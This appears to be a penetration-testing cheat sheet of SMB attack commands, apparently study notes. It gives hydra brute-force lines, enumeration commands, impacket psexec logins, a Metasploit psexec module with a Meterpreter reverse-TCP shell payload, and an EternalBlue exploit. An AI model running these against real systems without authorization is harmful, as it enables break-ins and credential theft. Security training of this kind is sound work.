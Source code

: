 ```
setg RHOSTS <TARGET_IP>
set USERNAME <USER>
set PASSWORD <PW>
run
session 1
# CTRL+Z to background
sessions -u 1
```

**SMB**

```
# Targeting SMB
nmap -sV -sC -p 445 <TARGET_IP>

## Brute-force SMB
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> smb
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> smb

## Enumeration
smbclient -L <TARGET_IP> -U <USER>
smbmap -u <USER> -p <PW> -H <TARGET_IP>
enum4linux -u <USER> -p <PW> -U <TARGET_IP>

## msfconsole
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS <TARGET_IP>
set SMBUser <USER>
set SMBPass <PW>
run

## SMB Login with <USER>
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
python3 psexec.py Administrator@<TARGET_IP>
python3 psexec.py <USER>@<TARGET_IP>

# msfconsole - Meterpreter
use exploit/windows/smb/psexec
set RHOSTS <TARGET_IP>
set SMBUser Administrator
set SMBPass <PW>
set payload windows/x64/meterpreter/reverse_tcp
run

# Without <USER>:<PW>, exploit a vulnerability, e.g. EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run
```
